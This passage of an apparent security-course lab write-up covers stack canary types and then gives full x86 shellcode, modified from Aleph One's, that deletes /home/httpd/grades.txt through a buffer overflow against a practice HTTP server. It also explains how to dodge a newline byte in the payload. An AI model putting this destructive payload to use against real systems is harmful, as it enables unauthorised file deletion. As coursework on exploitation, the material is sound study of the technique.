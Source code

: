 Random canary is more preferred method over terminator canary. It is a randomly generated 4-byte value placed onto the stack. It is important to use enough entropy when generating random 4-byte values as otherwise it can be possible for an attacker to brute force the canary value.

Null canary is the weakest option of the three. The canary is a 4-byte value containing all 0s, this is very trivial for an attacker to bypass.

------
###Exercise 3

######Mofidied Aleph One shellcode to unlink /home/httpd/grades.txt

For the buffer overflow exploit we were required to modify the Aleph One's shellcode in a way that it will use the Linux syscall unlink that will remove the /home/httpd/grades.txt file from the machine. Below we have provided the modified shellcode.S file to achieve this goal:

    #include <sys/syscall.h>

    #define STRING	"/home/httpd/grades.txt" /* Provide the filepath to the grades.txt file */
    #define STRLEN	22 /* Length of the string for the target file */
    #define ARGV	(STRLEN+1)
    #define ENVP	(ARGV+4)

    .globl main
    	.type	main, @function

     main:
    	jmp	calladdr

     popladdr:
    	popl	%esi
    	movl	%esi,(ARGV)(%esi)	/* set up argv pointer to pathname */
    	xorl	%eax,%eax		/* get a 32-bit zero value */
    	movb	%al,(STRLEN)(%esi)	/* null-terminate our string */
    	movl	%eax,(ENVP)(%esi)	/* set up null envp */

    	add     $5, %al         /* add 5 low bytes to avoid the unlink syscall, is 10 or '\n' (newline) */
        add     $5, %al         /* add 5 low bytes to avoid the unlink syscall, is 10 or '\n' (newline) */
    	movl	%esi,%ebx		/* syscall arg 2: string pathname */
    	leal	ARGV(%esi),%ecx		/* syscall arg 2: argv */
    	leal	ENVP(%esi),%edx		/* syscall arg 3: envp */
    	int	$0x80			/* invoke syscall */

    	xorl	%ebx,%ebx		/* syscall arg 2: 0 */
    	movl	%ebx,%eax
    	inc	%eax			/* syscall arg 1: SYS_exit (1), uses */
        					/* mov+inc to avoid null byte */
    	int	$0x80			/* invoke syscall */

     calladdr:
    	call	popladdr
    	.ascii	STRING

We modified the STRING and STRLEN values to match the file path of the grades.txt and the length of the string. There was also an issue that if we used the unlink syscall directly it would be interpreted as a newline or \n, which would break the HTTP request that we would send to the Zoobar HTTP Server. We got around this by adding two times 5 bytes into lower bytes to get the unlink syscall.
